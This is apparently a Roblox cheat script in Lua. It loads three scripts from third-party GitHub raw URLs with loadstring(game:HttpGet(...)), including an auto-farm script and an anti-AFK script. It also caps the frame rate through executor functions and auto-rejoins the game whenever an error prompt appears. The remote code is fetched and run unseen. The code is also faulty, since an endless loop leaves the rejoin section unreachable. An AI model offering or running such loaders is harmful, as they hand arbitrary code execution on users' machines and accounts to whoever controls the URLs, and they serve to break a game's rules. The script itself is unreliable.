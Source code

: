 repeat wait() until game:IsLoaded()
loadstring(game:HttpGet("https://raw.githubusercontent.com/NotError4o4/autochoose/refs/heads/main/mmb"))()
repeat wait() until game:IsLoaded()
wait(5)
loadstring(game:HttpGet("https://raw.githubusercontent.com/heasenpa/RobloxAutoFarmPro/refs/heads/main/message.txt", true))()
repeat wait() until game:IsLoaded()
wait(5)
loadstring(game:HttpGet("https://raw.githubusercontent.com/batusz/main/roblox/__Anti__Afk__Script__", true))()
local targetFPS = 10
while task.wait(2) do
    if setfpscap then
        setfpscap(targetFPS)
    elseif setfpscap2 then
        setfpscap2(targetFPS)
    end
end

while true do
repeat wait() until game.CoreGui:FindFirstChild('RobloxPromptGui')

local lp,po,ts = game:GetService('Players').LocalPlayer,game.CoreGui.RobloxPromptGui.promptOverlay,game:GetService('TeleportService')

po.ChildAdded:connect(function(a)
    if a.Name == 'ErrorPrompt' then
        repeat
            ts:Teleport(game.PlaceId)
            wait(2)
        until false
    end
end)
end
